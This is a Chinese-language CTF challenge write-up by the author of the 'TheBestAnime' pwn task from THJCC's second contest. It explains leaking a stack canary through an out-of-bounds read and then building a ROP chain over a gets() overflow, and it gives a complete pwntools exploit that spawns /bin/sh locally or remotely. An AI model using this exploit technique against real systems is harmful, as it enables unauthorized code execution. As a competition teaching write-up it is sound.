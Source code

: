 # CTF 比賽出題初體驗

這次擔任 `THJCC 第二屆` 的出題者  
算是我第一次正式出題的體驗
題目有不好的地方就請見諒

~~比賽前一天發現自己把題解刪掉了，害我連夜重寫一份 exploit~~

## pwn-TheBestAnime

### 題序

#### 題序
---
那似乎是ROP，  
這種攻擊天生單翼，  
需要Gadgets相互扶持依偎，  
否則無法翱翔天際，  
是種有缺陷的生物。  
但是，不知為何，  
我卻認為，  
這種生存方式是美好的。

---
"The ROP, also known as “the payload that shares wings,” only possesses one wing. Unless gadgets lean on each other and act as one, they’re incapable of flight. They’re imperfect, incomplete creatures. But, for some reason, their way of life, struck me as profoundly beautiful. It was beautiful, I felt."

`Author: Grissia`

---

#### 檔案

- chal

---

### 想法

這題大概的解法就是在 `darling` 函式中有 `OOB` 可以 leak canary  
leak canary 之後可以在 `main` 最後 `gets` 構建 rop chain  

### Step 1

用 ida 直接反組譯後可以看到第一步就是要輸入 `Darling in the FRANXX`  

### Step 2

跳轉到 `darling` 函式後有一個很明顯的 `OOB`  
可以分別輸入 `14` `15` 來得到兩段 canary  

### Step 3

用剛剛得到的 canary 值就可以放心 overflow  
構建 rop chain 後就大功告成

### Exploit

```python
from pwn import *
import sys

context.log_level = "debug"
context.terminal = ["wt.exe", "wsl.exe"]
context.arch = "amd64"

exe = context.binary = ELF("./chal")

if len(sys.argv) == 1:
    r = process("./chal")
    if args.GDB:
        gdb.attach(r)
elif len(sys.argv) == 3:
    r = remote(sys.argv[1], sys.argv[2])
else:
    print("Usage: python3 {} [GDB | REMOTE_IP PORT]".format(sys.argv[0]))
    sys.exit(1)


r.sendlineafter(b'> ', b'Darling in the FRANXX')

r.sendlineafter(b'> ', b'15')
upper = r.recvline().decode().split()[1]
r.sendlineafter(b'> ', b'14')
lower = r.recvline().decode().split()[1]

canary = int(upper+lower, 16)
success(f"canary: {hex(canary)}")

"""
rax = 0x3b
rdi = /bin/sh\x00
rsi = 0
rdx = 0

0x0000000000434bbb : pop rax ; ret
0x0000000000433f95 : mov qword ptr [rsi], rax ; ret
0x000000000041fcf5 : pop rsi ; ret
0x00000000004571e7 : pop rbx ; ret
0x0000000000494253 : pop rdi ; ret
0x0000000000432f5b : mov rdx, rbx ; syscall
"""
pop_rax = 0x434bbb
mov_rsi_rax = 0x433f95
pop_rsi = 0x41fcf5
pop_rbx = 0x4571e7
mov_rdx_rbx = 0x432f5b
pop_rdi = 0x494253

rop = b''
rop += b'a'*56
rop += p64(canary)
rop += p64(0)
rop += p64(pop_rax)
rop += b'/bin/sh\x00'
rop += p64(pop_rsi)
rop += p64(0x4cccc0)  # somewhere writable
rop += p64(mov_rsi_rax)  # set /bin/sh
rop += p64(pop_rbx)
rop += p64(0)
rop += p64(pop_rax)  # set rax
rop += p64(0x3b)
rop += p64(pop_rdi)  # set rdi
rop += p64(0x4cccc0)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(mov_rdx_rbx)  # set rdx

r.sendlineafter(b'> ', rop)

r.interactive()
```

[TheBestAnime](https://github.com/Grissia/TheBestAnime)
